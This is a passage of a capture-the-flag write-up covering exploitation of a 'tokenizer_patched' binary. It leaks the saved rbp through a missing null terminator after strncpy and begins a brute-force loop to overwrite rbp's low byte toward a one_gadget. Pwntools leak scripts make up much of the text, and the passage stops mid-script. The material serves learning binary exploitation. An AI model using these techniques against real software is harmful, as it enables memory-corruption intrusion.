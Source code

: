 # 3. Exploit

  - Step 1: Leak address and calculate one_gadget address

The first thing in this exploit is that we will change the LSB of rbp to null to make it ret to our shellcode. Let's create 1024 bytes payload and pass to program:

![something_leak.png](images/something_leak.png)

Oh wait! What's are those `���`? Something is leaked. That's because as we mentioned above, our input after strncpy() doesn't have null byte to seperate our input with rbp. So those `���` are just the leak of rbp. Let's write script to get rbp address for future use.
```
from pwn import *

inp_str1 = b'A'*1024

p = process('./tokenizer_patched')
p.recvuntil(b'characters):')
p.sendline(inp_str1)
data = p.recvuntil(b'delimiters:')
data = u64(data.split(b'truncated: ')[1][1024:1024+6] + b'\x00'*2)

print(hex(data))
```
Run several time and we know that rbp will change from 0x00 to 0xf0. This time, we will need to brute force to make sure rbp end with 0xf0 to make space for our payload when 0xf0 turn into 0x00. Let's put the above code to a while and check when it ends with 0xf0:
```
from pwn import *

inp_str1 = b'A'*1024

while True:
	p = process('./tokenizer_patched')
	p.recvuntil(b'characters):')
	p.sendline(inp_str1)
	data = p.recvuntil(b'delimiters:')
	data = u64(data.split(b'truncated: ')[1][1024:1024+6] + b'\x00'*2)

```